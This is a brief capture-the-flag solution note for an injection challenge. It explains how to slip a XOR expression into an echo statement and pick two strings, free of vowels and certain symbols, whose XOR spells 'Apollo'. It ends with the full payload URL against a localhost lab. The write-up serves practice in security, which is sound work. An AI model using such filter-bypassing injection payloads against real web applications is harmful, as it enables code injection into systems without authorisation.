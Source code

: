 # solution
- inject a XOR operation using `^`
  - `bbb"^"ccc` -> `echo "bbb"^"ccc"`
- find two string which xored result in `Apollo``
  - they may not contain vowels, `;`, `.`, or `'`
  - `-2-22-` ^ `lBB^^B` = `Apollo`
- http://localhost:2205/?name=-2-22-%22^%22lBB^^B